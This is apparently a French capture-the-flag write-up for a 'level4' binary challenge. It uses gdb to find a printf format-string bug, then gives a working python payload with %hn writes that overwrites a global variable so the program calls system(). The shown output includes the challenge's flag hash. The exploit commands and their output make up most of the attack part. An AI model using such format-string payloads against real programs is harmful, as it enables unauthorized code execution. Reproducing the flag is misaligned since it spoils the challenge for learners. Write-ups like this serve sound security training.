 # Level4

On observe un exécutable à la racine : `level4`

```shell
$ ./level4
Hello World
Hello World
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) set disassembl
disassemble-next-line  disassembly-flavor
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level4`

```shell
$ scp -P 4242 -r level4@192.168.56.102:/home/user/level4/level4 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level4
```

_résultat sauvegardé dans [source.md](source.md)_

Même exercice que `level3` mais cette fois `m` est comparé avec `0x1025544` et printf est dans une sous-fonction.

Dans un premier temps, on essaye d'afficher notre `AAAA` grâce au `%x` de printf en modifiant `i` dans `%i$x`.

On obtient `i = 12`

```shell
$ python -c 'print "AAAA %12$x"' | ./level4
AAAA 41414141
```

On remplace `AAAA` par l'adresse de `m` et on vérifie

```shell
$ python -c 'print "\x10\x98\x04\x08 %12$.8x"' | ./level4
 08049810
```

On doit maintenant changer la valeur de `m` grace au `%n` de printf mais `0x1025544` est trop gros pour le faire en une seule fois.
Nous allons donc écrire `0x0102` sur 2 octets et `0x5544` 2 octets plus loin pour former notre nombre final `0x1025544`

- <code>102<sub>16</sub> = 258<sub>10</sub> = les 8 caractères des deux adresses + 250 ' '.</code>
- <code>5544<sub>16</sub> = 21828<sub>10</sub> = 21570 ' ' + les 258 caractères déjà écrits.</code>

```shell
$ python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' | ./level4
...
                                               -1073743996
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
